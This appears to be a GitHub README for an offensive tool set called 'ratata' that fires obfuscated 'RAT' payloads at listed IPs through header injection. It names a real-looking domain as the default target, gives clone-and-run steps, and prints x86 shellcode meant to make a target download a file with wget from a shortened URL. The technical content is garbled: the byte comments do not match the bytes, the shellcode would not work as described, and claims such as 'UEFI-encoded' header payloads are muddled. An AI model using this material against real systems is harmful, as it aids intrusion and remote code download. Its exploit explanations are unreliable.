 # ratata
UEFI-encoded RAT attack tester suite for headers injections on servers.

Ratata takes in an IP, an IPv4, which you can modify in the list in the python file, and attacks it with obsfuscated RAT payloads.. these payloads are obsfuscated in different ways in each version, v1.0 and v2.0 using a UEFI encoder and v3.0 using a polyglot encoder. Right now the file targets the evil master of all servers on chuckecheese.com. You can add as many as you want but when you run the script it asks how many iterations you want.. default is 100, which is a lot (set at 2 is recommended..).. these iterations test RAT debug payloads that are in the code.

ratata_v2 (the version 2.0) is what you want . the first iteration it does is a standard, well-tested well-battled polyglot that works on a lot of stuff...
i call it the ratata polyglot and it's now available in ratata 2.0.

ratata_v3 is even better though.. it uses a recursive ai to add to the ratata polyglot in 2.0. each iteration builds upon the ratata polyglot to achieve an execution.

ratata 1.0 is pure UEFI rando algo stuff.. try to get something new. ratata injects on headers.

to install do:

git clone https://github.com/aamazie/ratata/

to run do:

cd ratata

python ratata_v2.py


ALSO included a UEFI injection debug scanner. Injects a NOP sled + overflow + INT3 trap (for debug). Shows up if the maxheaders go above 256-bit and cause a header buffer overflow.

Raticate is the utilmate utility in finding UEFI overflows.. it parses through many shellcode payloads and injects a RAT debug. It hacks everything with a NOP Sled Overflow.

Pikachu is some kind of another bug ai scanner that's like a combination of raticate v2.0 and ratata v3.0 to find RAT injections. Asks for iteration count and you can put multiple IPs into the list in the python.

Raichu is an update to the extremely verbose and effective Raticate_V2 that should work for more domains.



Pigeon.py has a different shellcode execution to Raticate_V2.. it shows a wget payload is possbile to execute through a buffer overflow:

1. Push /bin/sh onto the stack:
The shellcode first prepares the /bin/sh command so that when execve is called, it can invoke the shell. This is important because we need a shell environment to execute wget.

python
Copy code
b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"  # Push "/bin//sh" to stack
b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"              # Execve syscall to spawn a shell
Explanation:
31 c0: XOR the EAX register with itself (sets EAX to 0).
50: Push EAX (null terminator for the string).
68 2f 2f 73 68: Push the string "//sh" to the stack (part of /bin/sh).
68 2f 62 69 6e: Push the string "/bin" to the stack.
89 e3: Move the pointer to the top of the stack (/bin/sh) into the EBX register.
The next instructions set up execve with /bin/sh.
Now, the shell environment is set up and ready to run commands, but before execve is called, we need to push the arguments for the command we want to run.

2. Push the wget command and URL onto the stack in reverse:
To run wget, we push the command and the URL in reverse order (due to how the stack works — it pushes bytes in a last-in-first-out manner). The URL will be broken into parts and pushed one after the other.

For example, if we want to call wget https://bit.ly/3xyzabc, the URL and command need to be pushed in chunks, starting from the end and working backwards.

Here’s how we can push https://bit.ly/3xyzabc:

python
Copy code
# Push the URL "https://bit.ly/3xyzabc" in reverse
b"\x68\x7a\x61\x62\x63"                      # Push "zabc" (last part of URL)
b"\x68\x33\x78\x79\x7a"                      # Push "3xyz"
b"\x68\x2e\x6c\x79\x2f"                      # Push ".ly/"
b"\x68\x62\x69\x74\x2f"                      # Push "bit/"
b"\x68\x73\x3a\x2f\x2f"                      # Push "://"
b"\x68\x73\x68\x74\x74"                      # Push "shtt" (first part of "https")
Explanation:
68 <hex values>: This is the instruction to push a 4-byte value onto the stack.
Each chunk of the URL is pushed in reverse because the stack works by pushing items last-in-first-out (LIFO). When execve runs, it will read the stack from bottom to top, giving us the correct URL.
3. Push the wget command:
Now that the URL is on the stack, we need to push the command wget that we want to execute.

python
Copy code
b"\x68\x2f\x77\x67\x65"                      # Push "wget" command
Explanation:
We push the string "wget" onto the stack so that when /bin/sh runs, it knows to run wget with the URL as its argument.
4. Call execve to execute /bin/sh:
After everything is pushed onto the stack, we call execve, which will spawn a shell and execute wget with the URL as its argument.

python
Copy code
b"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"          # Execve syscall to execute the command
Explanation:
50: Push the EAX register (null terminator).
53: Push the EBX register (which contains the address of the command).
89 e1: Move the pointer to the stack into the ECX register (for execve).
b0 0b: Load 11 (the execve syscall number) into EAX.
cd 80: Trigger an interrupt to make the system call.
Complete Shellcode:
Here’s the full shellcode that will execute wget https://bit.ly/3xyzabc:

python
Copy code
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"  # Push "/bin//sh" to stack
    b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"              # Execve syscall to spawn a shell

    # Push the URL "https://bit.ly/3xyzabc" in reverse
    b"\x68\x7a\x61\x62\x63"                      # Push "zabc" (last part of URL)
    b"\x68\x33\x78\x79\x7a"                      # Push "3xyz"
    b"\x68\x2e\x6c\x79\x2f"                      # Push ".ly/"
    b"\x68\x62\x69\x74\x2f"                      # Push "bit/"
    b"\x68\x73\x3a\x2f\x2f"                      # Push "://"
    b"\x68\x73\x68\x74\x74"                      # Push "shtt" (first part of "https")

    # Push "wget" command
    b"\x68\x2f\x77\x67\x65"                      # Push "wget" command

    # Call execve to execute wget https://bit.ly/3xyzabc
    b"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"          # Execve syscall to execute the command
)
Execution Flow:
Set up /bin/sh: We prepare the shell environment.
Push wget https://bit.ly/3xyzabc: The URL is pushed in reverse order onto the stack.
Execute wget: execve is called, spawning /bin/sh and running wget with the URL.
This allows the target system to execute the wget command to download a file from https://bit.ly/3xyzabc.

DISCLAIMER: the developers claim no responsibility or liability for the public misuse of this debugger, their property.

